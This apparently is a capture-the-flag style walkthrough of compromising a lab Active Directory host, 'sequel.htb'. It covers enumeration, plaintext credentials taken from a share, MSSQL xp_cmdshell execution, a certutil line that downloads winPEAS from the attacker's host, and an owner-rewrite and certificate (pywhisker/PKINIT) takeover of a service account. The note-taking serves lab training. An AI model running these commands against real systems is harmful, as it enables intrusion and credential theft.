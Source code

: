 

![[Pasted image 20250616230815.png]]

# Given Credentials:


rose:KxEPkKe6R8su


# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.10.11.51 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.10.11.51`

==Try to find valid users with nmap==: 
`sudo nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='sequel.htb',userdb=/usr/share/wordlists/statistically-likely-usernames/us-census-base-lists/j.smith-x98800.txt 10.10.11.51`

Some output from the scan:

1. DNS: DC01.sequel.htb0
2. LDAP and smb in use

![[Pasted image 20250615172520.png]]

## What to try?
1. Null session on SMB?
	1. `rpcclient -U "" -N <target_ip> `
		1. ^^ nothing here either
	2. `smbmap -u "" -p "" -P 445 -H 10.10.11.51 && smbmap -u "guest" -p "" -P 445 -H 10.10.11.51`
		1. ^^ nuthin
2. Null session on LDAP?
	1. `ldapsearch -x -H ldap://10.10.11.51:389 -b "dc=DC01.sequel,dc=htb" "(objectClass=user)"`
	2. ^^ Got nothing here
3. User enumeration with kerbrute?

# enum4linux:
`enum4linux -a 10.10.11.35`

==Usernames:== administrator, guest, krbtgt, domain admins, root, bin

not much more than that.


# With the given credentials (*sigh* did not realize) smbmap:
`smbmap -H 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --no-banner`

![[Pasted image 20250615180030.png]]

Let's look into the shares `Users` and `Accounting Department`

These files are on the accounting share: 
![[Pasted image 20250615180459.png]]

What do they have in them?

Likeley username: `ruy.fernandez` or `rfernandez`

==In a shared xml file there are usernames and creds==

```
rose:KxEPkKe6R8su
angela:0fwz7Q4mSpurIt99
Oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!
ryan:WqSZAF6CysDQbGb3
sql_svc:WqSZAF6CysDQbGb3
```


## Enumerate users further: 
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py sequel.htb/"oscar":"86LxLBMgEWaKUnBG" -dc-ip 10.10.11.51 -all`

![[Pasted image 20250615183434.png]]

GROUPS:
![[Pasted image 20250615183638.png]]

Cloneable Domain Controllers??


## evil-winrm:
`evil-winrm -i 10.10.11.51 -u oscar -p '86LxLBMgEWaKUnBG'`

^^ nope

## Let's try to get a session on the sqlserver:
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sa@10.10.11.51`

`EXEC xp_cmdshell 'whoami /priv'`

![[Pasted image 20250616221154.png]]

Ryan is part of the remote management users

==NTUSER.DAT== is accessible from the sql user:
![[Pasted image 20250616222424.png]]

## Let's get a reverse shell using revshells.com: https://www.revshells.com/


==We have some interesting files here==:
![[Pasted image 20250616231857.png]]


### Note: Screeshots are saved here: "/home/david/.cache/thumbnails/normal/"

==In the `sql-configuration.INI` file there are creds for the `sql_svc` account==:  
![[Pasted image 20250618221317.png]]

sql_svc:WqSZAF6CysDQbGb3

```shell
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sql_svc@10.10.11.51 -windows-auth

# Don't forget -windows-auth!

```

## Ryan reused his credentials from `sql_svc!

ryan:WqSZAF6CysDQbGb3

^^ This allows us to get the user flag

## Get Winpeas on the machine:
`certutil -urlcache -split -f http://10.10.16.2/winPEASx64.exe C:\Users\Public\winpeasx64.exe
`

![[Pasted image 20250618225114.png]]

==SharpHound.exe location:== /opt/redteam/BloodHound-win32-x64/resources/app/Collectors/SharpHound.exe

Ran sharphound and transferred it back to my attacker machine with `download` from winrm

neo4j password: neo4j:david

bloodhound password: Sc458849282!

# Ryan has `writeOwner` on ca_svc:

^^ Which means we can conduct Resource-Based Constrained Delegation (RBCD)
![[Pasted image 20250619230802.png]]
## Plan of attack on above:
- Utilize Resource-Based Constrained Delegation to take control of ca_svc
```shell

python3 /usr/share/doc/python3-impacket/examples/owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
# Make Ryan the owner of the object

sudo python3 /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
# Gain full control

sudo python3 /opt/redteam/pywhisker/pywhisker/pywhisker.py -d sequel.htb -u ryan -p  'WqSZAF6CysDQbGb3' --target "CA_SVC" --action "add" --filename CACert --export PEM   
# add a certificate


# THIS MUST BE RUN IN A VIRTUAL ENVIRONMENT
python3 gettgtpkinit.py -cert-pem /opt/redteam/pywhisker/pywhisker/CACert_cert.pem -key-pem /opt/redteam/pywhisker/pywhisker/CACert_priv.pem sequel.htb/ca_svc ca_svc.ccache
# Request the certificate

```

==Now we have a valid TGT==
![[Pasted image 20250620213848.png]]



ca_svc is a member of CERT_PUBLISHERS
![[Pasted image 20250619230847.png]]


HOW TO START A VIRTUAL ENVIRONMENT:
1. python3 -m venv venv
2. source venv/bin/activate
